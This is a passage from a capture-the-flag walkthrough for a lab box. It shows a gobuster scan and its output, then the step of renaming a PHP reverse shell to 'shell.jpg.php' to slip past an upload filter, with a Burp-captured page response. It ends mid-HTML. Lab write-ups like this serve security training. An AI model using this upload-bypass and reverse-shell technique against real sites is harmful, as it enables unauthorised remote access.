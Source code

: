 ```bash
```

>>USING GOBUSTER TO FIND HIDDEN DIRECTORIES

```bash
root@ip-10-10-225-197:~# gobuster dir -u http://10.10.73.143:65000 -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.73.143:65000
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/12/26 04:48:03 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads.php (Status: 200)
/assets (Status: 301)
/api (Status: 301)
/grid (Status: 301)
===============================================================
2020/12/26 04:48:22 Finished
===============================================================
```

>>COPYING THE REVERSE SHELL TO CURRENT DIRECTORY AND RENAMED IT AS "SHELL.JPG.PHP" ,WE NAME "JPG.PHP" BECAUSE THESE IS THE SUPPORTED FILE EXTENSION BY THE WEBSITE.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.jpg.php
```

NOTE: KEEP THE BURP PROXY ON UNTIL YOU SEE THE UPLOADED REVERSE SHELL IN THE GRINCH. 

>>USE BURP SUITE TO CAPTURE THE TRAFFIC WHILE NAVIGATING TO THE UPLOADS.PHP FROM 
http://GIVEN_IP:65000/

```REQUEST_CAPTURED_WHILE_NAVIGATING_TO_UPLOADS.PHP
HTTP/1.1 200 OK
Date: Thu, 25 Nov 2021 14:44:20 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1328
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang=en>
	<head>
		<title>Aperture Clear?</title>
		<meta charset="utf-8">
		<meta name="viewport" content="width=device-width, initial-scale=1.0">
		<link rel="icon" type="image/png" href="favicon.png">
		<link rel="stylesheet" type="text/css" href="assets/css/CourierPrime.css">
		<link rel="stylesheet" type="text/css" href="assets/css/uploads.css">
		<script src="assets/js/filter.js"></script>
		<script src="assets/js/upload.js"></script>
	</head>
	<body>
		<input id="uploadInput" type=file accept=".png,.jpg,.jpeg">
		<div id="arrow">
```